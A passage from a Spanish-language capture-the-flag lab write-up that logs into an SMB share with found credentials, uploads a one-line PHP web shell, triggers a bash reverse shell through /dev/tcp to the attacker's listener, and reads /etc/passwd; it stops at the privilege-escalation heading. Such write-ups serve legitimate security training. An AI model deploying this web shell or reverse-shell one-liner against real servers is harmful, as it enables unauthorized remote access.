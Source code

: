 Nos conectamos al servicio **SMB**
```bash
smbclient //172.17.0.2/html -U 'bob' --password='star'
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Revisando los recursos vemos que esta conectando este servicio con, el servicio web asi que lo que subamos se vera reflejado en la web
Asi que subiremos un archivo malicioso que nos permita ganar acceso al servidor 
### Ejecucion del Ataque
Crearemos un archivo bajo el nombre **( cmd.php )**. en nuestra maquina atacante
```php
<?php
  system($_GET["cmd"]);
?>
```

ahora desde **SMB** procedemos a subirlo:
```bash
smb: \> put cmd.php # Cargamos el archivo

putting file cmd.php as \cmd.php (32.2 kb/s) (average 32.2 kb/s)
smb: \> ls
  .                                   D        0  Sun Jun 15 21:39:45 2025
  ..                                  D        0  Thu Apr 11 08:18:47 2024
  cmd.php                             A       33  Sun Jun 15 21:39:45 2025
  index.html                          N     1832  Thu Apr 11 08:21:43 2024
```

Ahora desde la web lo ejecutaremos probando el comando: **( whoami )** para ver si funciona
```bash
# Comandos para explotación
http://172.17.0.2/cmd.php?cmd=whoami
```

### Intrusion
Ya teniendo ejecucion remota de comandos nos pones en escucha para ganar acceso al servidor
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
Listando los usuarios del sistema vemos los siguientes
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
james:x:1001:1001:james,,,:/home/james:/bin/bash
```
### Explotacion de Privilegios
